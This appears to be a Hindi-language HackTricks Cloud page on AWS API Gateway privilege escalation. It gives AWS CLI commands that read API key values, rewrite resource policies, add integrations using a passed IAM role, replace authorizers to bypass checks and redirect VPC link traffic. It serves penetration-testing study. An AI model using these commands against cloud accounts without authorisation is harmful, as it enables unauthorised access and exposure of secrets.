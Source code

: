 # AWS - Apigateway विशेषाधिकार बढ़ाना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप क्षेत्र के अनुसार कॉन्फ़िगर किए गए API कुंजियाँ उत्पन्न कर सकते हैं।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** इस तकनीक के साथ आप प्राइवेस्क नहीं कर सकते हैं लेकिन आप संवेदनशील जानकारी तक पहुंच सकते हैं।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई API कुंजियों को प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** इस तकनीक के साथ आप प्राइवेस्क नहीं कर सकते हैं लेकिन आप संवेदनशील जानकारी तक पहुंच सकते हैं।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के पहुंच का दुरुपयोग करने के लिए अपने आप को पहुंच दे सकें (जैसे किसी भी वंशावली लैम्बडा को आह्वान करना)।

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आम तौर पर, इस तकनीक के साथ आप सीधे privesc नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुंचने का अधिकार हो सकता है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
जाँच की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` अनुमतियाँ हैं, **एक मौजूदा API Gateway REST API में एक नया एकीकरण जोड़ सकता है जिसमें एक IAM भूमिका संलग्न है**। हमलावर फिर **लैम्बडा फ़ंक्शन को ट्रिगर कर सकता है जिससे वे विविध कोड को क्रियान्वित कर सकते हैं और संबंधित IAM भूमिकाओं के संसाधनों तक पहुंच सकते हैं**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: लैम्बडा फंक्शन के IAM भूमिका से जुड़े संसाधनों तक पहुंच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
टेस्टिंग की आवश्यकता
{% endhint %}

`apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` अनुमतियों के साथ एक हमलावर **मौजूदा API गेटवे ऑथराइज़र** को संशोधित कर सकता है ताकि सुरक्षा जांचों को छलना करें या जब API अनुरोध किए जाते हैं तो विचारशील कोड को क्रियान्वित कर सकता है।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: सुरक्षा जांचों को छलकर जानकारी हासिल करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
जरुरी परीक्षण
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateVpcLink` अनुमति है, **एक मौजूदा VPC लिंक को संशोधित कर सकता है ताकि यह एक विभिन्न नेटवर्क लोड बैलेंसर की ओर पोइंट करे, जिससे निजी API ट्रैफिक को अनधिकृत या दुरुपयोगी संसाधनों पर पुनर्निर्देशित किया जा सकता है**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफिक का अवरोधन या विघटन।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **शामिल हों** या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
